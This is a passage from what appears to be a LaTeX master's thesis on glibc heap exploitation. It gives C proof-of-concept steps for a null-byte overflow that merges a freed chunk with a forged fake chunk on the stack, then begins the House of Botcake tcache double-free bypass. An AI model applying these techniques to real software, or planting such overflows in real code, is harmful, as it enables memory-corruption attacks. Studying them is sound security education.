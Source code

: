 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\newcommand*\sbs{small bins}
\begin{document}
By considering the merge code of the free function we can tell if we have control over prev\_size , and prev\_inuse flag, we can have control over new chunk location. 
Consider the following sample, first, we need a chunk inside the heap, also, we need a fake chunk in any location. For this example we use the stack for fake chunk :
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* a;
	a = (uint8_t*) malloc(0x38);
	int real_a_size = malloc_usable_size(a);
	size_t fake_chunk[6];
	fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
	fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the \sbs{}
	fake_chunk[2] = (size_t) fake_chunk; // fwd
	fake_chunk[3] = (size_t) fake_chunk; // bck
	fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
	fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
 \end{lstlisting}
Now we need another chunk inside the heap:
\begin{lstlisting}[language=c,frame=tlrb]
b = (uint8_t*) malloc(0xf8);
	int real_b_size = malloc_usable_size(b);
	uint64_t* b_size_ptr = (uint64_t*)(b - 8);
 \end{lstlisting}
Now we use ‘a’ inorder to overflow and manipulate the size of ‘b’
\begin{lstlisting}[language=c,frame=tlrb]
a[real_a_size] = 0;
 \end{lstlisting}
 Now its time to set prev\_size of our fake chunk to an inorder to merge it with our fake chunk
 \begin{lstlisting}[language=c,frame=tlrb]
size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
*(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
fake_chunk[1] = fake_size;
 \end{lstlisting}
The final step is free ‘b’ , after free ‘b’ it be merged with out fake chunk , so next malloc return our fake chunk
 \begin{lstlisting}[language=c,frame=tlrb]
free(b);
d = malloc(0x200);
 \end{lstlisting}


 \subsection{ The House of Botcake}
 The goal is to bypass \libc{} security checks in newer versions to perform a \tch{} double-free attack.
Consider the following code, like always, first, we assume our target is at the stack 
 \begin{lstlisting}[language=c,frame=tlrb]
intptr_t stack_var[4];
 \end{lstlisting}
 Now, We allocate 7 chunks to fill up the \tch{} in the future. As you remember we did this trick before too.
 \begin{lstlisting}[language=c,frame=tlrb]
 intptr_t *x[7];
  for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
    x[i] = malloc(0x100);
  }
\end{lstlisting}
\end{document}
